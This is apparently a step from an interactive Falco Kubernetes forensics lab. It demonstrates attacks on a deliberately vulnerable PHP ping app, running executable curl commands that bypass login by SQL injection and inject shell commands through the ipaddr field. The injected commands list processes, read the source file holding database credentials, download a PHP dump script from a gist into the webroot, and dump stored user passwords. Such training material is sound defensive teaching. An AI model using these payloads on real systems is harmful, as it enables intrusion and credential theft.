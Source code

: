 Unfortunately, it turns out our web application is faulty and susceptible to [SQL injection](https://en.wikipedia.org/wiki/SQL_injection) attacks:

![SQL injection](/sysdig/courses/falco/forensics-k8s/assets/03_sql_injection.png)

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost" -X POST http://ping/ping.php`{{execute}}

An attacker can not only bypass the authentication mechanism, but even execute arbitrary commands:

![Arbitrary command](/sysdig/courses/falco/forensics-k8s/assets/04_arbitrary_command.png)

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; ps aux" -X POST http://ping/ping.php`{{execute}}

The attacker could easily get the source code for our ping app, which contains the database credentials:

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; cat /var/www/html/ping.php" -X POST http://ping/ping.php`{{execute}}

Once he knows the login details for the database, he could easily write a small rogue program, and place it in our server

`kubectl exec client -n ping -- curl -F "s=OK" -F "user=bad" -F "passwd=wrongpasswd' OR 'a'='a" -F "ipaddr=localhost; curl https://gist.githubusercontent.com/quique/4630ca1bbd9e7c7d44337d7f132aac8b/raw/00d94164db24b9e53007bee419af0201019f63fe/dump.php > /var/www/html/dump.php " -X POST http://ping/ping.php`{{execute}}

Finally, he could get a dump of the database contents, including the table with all our users and their passwords.

`kubectl exec client -n ping -- curl http://ping/dump.php`{{execute}}
